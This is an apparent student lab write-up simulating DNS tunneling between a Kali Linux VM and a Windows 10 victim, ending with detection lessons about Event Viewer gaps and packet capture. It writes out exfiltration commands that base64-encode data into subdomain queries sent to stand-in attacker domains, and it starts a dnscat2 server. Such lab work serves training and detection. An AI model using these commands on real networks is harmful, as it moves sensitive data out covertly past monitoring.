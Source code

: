 # Scenario 4: DNS Tunneling - Data Exfiltration via Encoded DNS Subdomain Queries

## ✅Simulated Activity:
Simulated an attacker exfiltrating sensitive data through covert DNS queries — by encoding data inside DNS subdomains and sending them to a fake DNS server (Kali machine). This task emulated stealthy exfiltration where detection is difficult using traditional perimeter defenses.

---

## ✦ Lab Setup

**Attacker:** Kali Linux (DNS server using Wireshark & `dnscat2`)  
**Victim:** Windows 10 (DNS client)  
**Logs collected:** Wireshark, `dnscat2`, Windows Event Viewer  

- DNS server set to Kali IP in Windows network settings
- Network connection established between Windows & Kali

---

## Steps Performed

## ✦ Basic DNS Exfil (Only using Kali and Wireshark)
### Step 1: Encode Fake Data
```bash
echo "mysecretdata" | base64
```

### Step 2: Simulate DNS Query with Encoded Data
```bash
nslookup bXlzZWNyZXRkYXRhCg.fakehacker.com
```
Or
```bash
dig @8.8.8.8 bXlzZWNyZXRkYXRhCg.attackerdomain.com
```
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint04_dns_exfil_basic_simulation.png)
Packets captured
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint04_dns_exfil_basic_packets.png)
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint04_dns_exfil_basic_log.png)

---

## ✦ Real DNS Tunnel Simulation
### 1. Configured DNS Server in Windows:
- Set Kali’s IP (e.g., `192.168.1.40`) as the **Preferred DNS server** in Windows 10 via Control Panel → Network Settings

### 2. Launched dnscat2 DNS Server on Kali:
```bash
ruby ./dnscat2.rb
```
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint04_dns_tunneling_dnscat2_tool.png)

- Server started on UDP port 53
- Kali now actively listens for incoming DNS queries

### 3. Simulated Encoded Data Exfiltration from Windows:
Used PowerShell/CMD to simulate encoded subdomain query:
```powershell
nslookup bXlzZWNyZXRkYXRh.fake
```
> bXlzZWNyZXRkYXRh = base64 of “mysecretdata”
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint04_dns_tunnel_simulated.png)

## ✦ Logs and Observations
### In Wireshark (on Kali):
- DNS queries from Windows captured
- Queries had base64-encoded subdomains
- Protocol: DNS
- Source: Windows VM IP (192.168.1.42)
- Destination: Kali DNS IP (192.168.1.40)

Example Log:
```css
Standard query A bXlzZWNyZXRkYXRh.fake
```
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint04_dns_tunnel_connection_from_windows.png)
![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint04_dns_tunneling_logs_wireshark.png)

### In Event Viewer logged while basic DNS Exfil simulation (on Windows):
- Event ID 22 (DNS Query Logged)
- Verified DNS resolution activity to fake domain

![](https://github.com/alj-v/cyber-intern-phase-3/blob/main/screenshots/hint04_dns_exfil_basic_sysmon_log.png)

> ✦ During simulation, DNS query packets were successfully captured in Wireshark.  
> ✦ However, certain queries (especially to the fake DNS server running on Kali) were not consistently logged in Windows Event Viewer under Event ID 22.  
> ✦ This reflects a real-world challenge: _DNS tunneling often evades endpoint-level logging due to limitations in Windows logging mechanisms when using non-standard or silent DNS servers._  
> ✦ **The test confirmed that packet capture is often a more reliable method to detect such exfiltration attempts.**

---

✅ Conclusion  
The task successfully demonstrated DNS-based data exfiltration using encoded subdomain queries. DNS tunneling was simulated using dnscat2, and logs were captured on both the attacker (Kali) and victim (Windows) systems.  
This technique highlights the need for:

- Deep DNS inspection
- Network segmentation
- DNS query logging
- Threat hunting with anomaly-based detection
